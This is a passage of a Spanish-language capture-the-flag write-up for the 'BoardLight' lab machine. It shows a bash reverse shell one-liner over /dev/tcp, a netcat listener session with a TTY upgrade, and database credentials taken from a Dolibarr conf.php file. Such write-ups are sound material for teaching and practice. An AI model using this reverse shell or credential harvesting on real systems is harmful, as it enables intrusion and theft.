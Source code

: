 Ahora simplemente podemos lanzarnos una reverse shell con `bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'`

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.11 50506
bash: cannot set terminal process group (857): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/website$ script /dev/null -c bash # Inicar nuevo proceso para alocar una tty
www-data@boardlight:~/html/crm.board.htb/htdocs/website$ script /dev/null -c bash     
Script started, file is /dev/null
www-data@boardlight:~/html/crm.board.htb/htdocs/website$ ^Z # CTRL + Z
[1]  + 5737 suspended  nc -lvnp 443

❯ stty raw -echo; fg # Pasar controles de la terminal al proceso
[1]  + 5737 continued  nc -lvnp 443
                                   reset xterm # Reiniciar la terminal
www-data@boardlight:~/html/crm.board.htb/htdocs/website$ export TERM=xterm-256color # Establecer el tipo de terminal
www-data@boardlight:~/html/crm.board.htb/htdocs/website$ stty rows 34 columns 149 # Ajustar tamaño de la terminal en base a filas y columnas
www-data@boardlight:~/html/crm.board.htb/htdocs/website$ source /etc/skel/.bashrc # Darle colorsito
```

### larissa - boardlight

Viendo los archivos del ERP en cuestión, podemos encontrar las credenciales para acceder a la DB en `/var/www/html/crm.board.htb/htdocs/conf/conf.php`:

```php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';
```